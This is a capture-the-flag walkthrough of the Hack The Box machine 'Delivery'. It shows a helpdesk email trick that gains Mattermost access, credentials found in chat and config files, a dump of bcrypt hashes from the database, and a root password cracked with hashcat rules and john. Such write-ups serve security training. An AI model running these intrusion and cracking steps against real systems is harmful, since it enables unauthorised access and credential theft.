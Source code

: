 ```yaml
---
permalink: /misc/htb/delivery
title: Delivery
---
```


<br>

# nmap


```
[connor@fedora delivery]$ nmap 10.10.10.222  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-30 07:56 AEST  
Nmap scan report for 10.10.10.222  
Host is up (0.79s latency).  
Not shown: 998 closed tcp ports (conn-refused)  
PORT   STATE SERVICE  
22/tcp open  ssh  
80/tcp open  http  
  
Nmap done: 1 IP address (1 host up) scanned in 70.49 seconds
```


Add the hostname to /etc/hosts:

```
10.10.10.222 delivery.htb helpdesk.delivery.htb
```

Then we can go to http://helpdesk.delivery.htb/, click 'open a new ticket', and fill in details.

I used email: user@delivery.htb

Then I got 'You may check the status of your ticket, by navigating to the Check Status page using ticket id: 4774706.

If you want to add more information to your ticket, just email 4774706@delivery.htb.'

Then use the email 4774706@delivery.htb to sign up here http://delivery.htb:8065/signup_email

Then go back and click 'check ticket status' with  user@delivery.htb and ticket id: 4774706.

We see a confirmation URL <http://delivery.htb/:8065/do_verify_email?token=yfb6qoounnptzz6biskzss9mq79hhp1h7nkkij4sgtpa41rid9p8d1zb8km36ph6&email=4774706%40delivery.htb>

Now we have access to the Internal team!

There's credentials in the chat:

@developers Please update theme to the OSTicket before we go live. Credentials to the server are maildeliverer:Youve_G0t_Mail!

```
[connor@fedora delivery]$ ssh maildeliverer@10.10.10.222  
maildeliverer@10.10.10.222's password:    
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64  
  
Last login: Mon Aug 29 18:16:43 2022 from 10.10.16.5   
maildeliverer@Delivery:~$ ls  
user.txt  
maildeliverer@Delivery:~$
```


Privesc

We can find the mattermost config and look through it:

```
maildeliverer@Delivery:~$ less /opt/mattermost/config/config.json
```


There are more creds: `mmuser:Crack_The_MM_Admin_PW`

```
maildeliverer@Delivery:~$ mysql -u mmuser -p  
Enter password:    
Welcome to the MariaDB monitor.  Commands end with ; or \g.  
Your MariaDB connection id is 69  
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10  
  
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.  
  
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement  
.  
  
MariaDB [(none)]> use mattermost;  
Reading table information for completion of table and column names  
You can turn off this feature to get a quicker startup with -A  
  
Database changed  
MariaDB [mattermost]> describe Users;  
+--------------------+--------------+------+-----+---------+-------+  
| Field              | Type         | Null | Key | Default | Extra |  
+--------------------+--------------+------+-----+---------+-------+  
| Id                 | varchar(26)  | NO   | PRI | NULL    |       |  
| CreateAt           | bigint(20)   | YES  | MUL | NULL    |       |  
| UpdateAt           | bigint(20)   | YES  | MUL | NULL    |       |  
| DeleteAt           | bigint(20)   | YES  | MUL | NULL    |       |  
| Username           | varchar(64)  | YES  | UNI | NULL    |       |  
| Password           | varchar(128) | YES  |     | NULL    |       |  
| AuthData           | varchar(128) | YES  | UNI | NULL    |       |  
| AuthService        | varchar(32)  | YES  |     | NULL    |       |  
| Email              | varchar(128) | YES  | UNI | NULL    |       |  
| EmailVerified      | tinyint(1)   | YES  |     | NULL    |       |  
| Nickname           | varchar(64)  | YES  |     | NULL    |       |  
| FirstName          | varchar(64)  | YES  |     | NULL    |       |  
| LastName           | varchar(64)  | YES  |     | NULL    |       |  
| Position           | varchar(128) | YES  |     | NULL    |       |  
| Roles              | text         | YES  |     | NULL    |       |  
| AllowMarketing     | tinyint(1)   | YES  |     | NULL    |       |  
| Props              | text         | YES  |     | NULL    |       |  
| NotifyProps        | text         | YES  |     | NULL    |       |  
| LastPasswordUpdate | bigint(20)   | YES  |     | NULL    |       |  
| LastPictureUpdate  | bigint(20)   | YES  |     | NULL    |       |  
| FailedAttempts     | int(11)      | YES  |     | NULL    |       |  
| Locale             | varchar(5)   | YES  |     | NULL    |       |  
| Timezone           | text         | YES  |     | NULL    |       |  
| MfaActive          | tinyint(1)   | YES  |     | NULL    |       |  
| MfaSecret          | varchar(128) | YES  |     | NULL    |       |  
+--------------------+--------------+------+-----+---------+-------+  
25 rows in set (0.001 sec)  
  
MariaDB [mattermost]> select Username, Password from Users;  
+----------------------------------+--------------------------------------------------------------+  
| Username                         | Password                                                     |  
+----------------------------------+--------------------------------------------------------------+  
| user                             | $2a$10$XF6KLh8itiBsLQV9ooQmpu6G62fWtDz2OxItmDYJNbxS01cS75mg. |  
| surveybot                        |                                                              |  
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |  
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |  
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |  
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |  
| channelexport                    |                                                              |  
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |  
+----------------------------------+--------------------------------------------------------------+  
8 rows in set (0.001 sec)
```

From the chat we know the password is some variation of PleaseSubscribe!

```
[connor@fedora delivery]$ wget https://raw.githubusercontent.com/hashcat/hashcat/master/rules/best64.rule
[connor@fedora delivery]$ echo PleaseSubscribe! | hashcat -r best64.rule --stdout > wordlist  
[connor@fedora delivery]$ vim hash  
[connor@fedora delivery]$ cat hash  
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO  
[connor@fedora delivery]$ john hash --wordlist=wordlist  
Using default input encoding: UTF-8  
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])  
Cost 1 (iteration count) is 1024 for all loaded hashes  
Will run 4 OpenMP threads  
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status  
PleaseSubscribe!21 (?)
```

We've cracked the root password!

```
maildeliverer@Delivery:~$ su  
Password:    
root@Delivery:/home/maildeliverer# cd /root  
root@Delivery:~# ls  
mail.sh  note.txt  py-smtp.py  root.txt  
root@Delivery:~# cat note.txt    
I hope you enjoyed this box, the attack may seem silly but it demonstrates a pretty high risk vulnerability I've seen several times.  The inspiration for the  
box is here:    
  
- https://medium.com/intigriti/how-i-hacked-hundreds-of-companies-through-their-helpdesk-b7680ddc2d4c    
  
Keep on hacking! And please don't forget to subscribe to all the security streamers out there.  
  
- ippsec
```
